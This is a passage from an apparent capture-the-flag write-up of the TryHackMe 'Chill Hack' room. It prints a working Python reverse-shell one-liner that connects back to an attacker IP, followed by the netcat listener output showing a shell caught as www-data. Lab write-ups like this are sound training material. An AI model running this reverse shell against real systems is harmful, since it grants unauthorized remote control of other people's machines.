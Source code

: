 ![hacker.png](../assets/chill_hack_assets/hacker.png)

This must be what the note found on FTP was referring to when it talked about filtering certain strings. Lets keep trying other one-liners.

Cool, I was able to catch a reverse shell back with this python code:

```text
export RHOST="10.6.61.45";export RPORT=443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

And caught a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ nc -lvnp 443                 
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.204.78] 46058
$ whoami
whoami
www-data
$ hostname
hostname
ubuntu
```
